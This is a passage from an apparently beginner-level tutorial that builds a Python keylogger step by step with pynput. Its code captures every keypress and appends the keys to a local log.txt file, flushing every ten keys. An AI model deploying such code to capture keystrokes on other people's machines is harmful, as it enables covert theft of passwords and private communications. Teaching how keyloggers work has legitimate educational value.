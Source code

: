 Great. Now our code looks like this:

```python
from pynput.keyboard import Key, Listener

keys = []
def on_press(e):
    global keys  #access the array keys
    keys.append(e)  #add the key e to the array

with Listener(on_press = on_press) as listener:
    listener.join()    
```

If we run it, we wont be seeing anything but the code will be recording the logs in the `keys` array.
Next step is to take these keys and output them into a `.txt` file.
Lets define our second function (`that takes the keys stored in the array and write them in a `.txt` file.`).

```python
def write_file(keys):
    with open("log.txt", "a+") as f: #the a+ tells python to create log.txt if it does not exist
        for key in keys:
            k = str(key).replace("'", "")
            if k.find("space") > 0:
                    f.write('  ')
            elif k.find("Key") == -1:
                    f.write(k)
```

Great. Now this function opens the `log.txt` file, goes throw the array we have, then write the key to the file (`as f`). However, we have few conditionals here. first we remove any `'` key, then if the key pressed is `"space"`, we dont want to write the word space so instead we will just type an actual space `" "` in a string. Otherwise, we just type the key as it is.

Great 🔥 Now we have the function ready, but when do we call it??
As you saw, there are two steps to the `.txt` file. First storing the keys in an array, second taking the keys from the array and typing them to a file. _WHICH MEANS_, we have to call the functiobn `write_file` only after we store the key in the array. However, since the `write_file` function goes through the array one by one, we cannot call it everytime we add a key to the array since it will type it again and again. So lets only call it everytime there are 10 keys in the array, and after we call it, we make that array empty again.

So lets edit the `on_press` function:

```python
count = 0 # his keeps track of how many items there are in the array
keys = []

def on_press(e):
    global keys, count
    keys.append(e)
    count += 1
    if count >= 10:
        count = 0
        write_file(keys)
        keys = []  # make the array empty after we call the write_file function.
```
